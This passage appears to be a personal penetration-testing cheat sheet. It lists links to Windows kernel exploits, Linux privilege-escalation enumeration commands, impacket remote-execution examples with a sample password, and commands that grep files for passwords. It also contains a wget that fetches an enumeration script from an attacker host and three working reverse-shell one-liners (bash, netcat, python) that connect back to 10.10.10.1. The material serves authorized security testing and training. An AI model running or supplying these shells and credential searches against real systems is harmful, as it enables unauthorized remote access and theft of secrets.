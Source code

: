 ```py
https://github.com/SecWiki/windows-kernel-exploits			# check how precomped exploits work
https://fuzzysecurity.com/tutorials/16.html
```

## linux privesc enum
```
uname -a
whoami
/etc/passwd			// users
ss -tulpn
ps aux
ls -havl /			// special directories?!
ls -R /home			// files in home and permissions
cat /etc/hosts			// connections and known hosts
cat /etc/fstab			// maybe passwords?!
grep -RoiE "password.{20}"
grep -R db_passwd		// mysql

wget http://10.10.10.1:8000/LinEnum.sh
```
see also:
```
https://github.com/diego-treitos/linux-smart-enumeration
LinPEAS
```

## impacket
```c
impacket-wmiexec pentest:"P3nT3st!"@10.10.10.1
impacket-smbserver <shareName> <sharePath>
psexec.py 			                        // works with hashes
```

## Linux writeable directories
```c
/dev/shm
/tmp
```



## reverse shells
Pentestmonkey reverse shell cheat sheet
```c
bash -i >& /dev/tcp/10.10.10.1/8083 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 8081 > /tmp/f

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
also take a look at 
```
payloadallthethings 
swisskyrepo
```
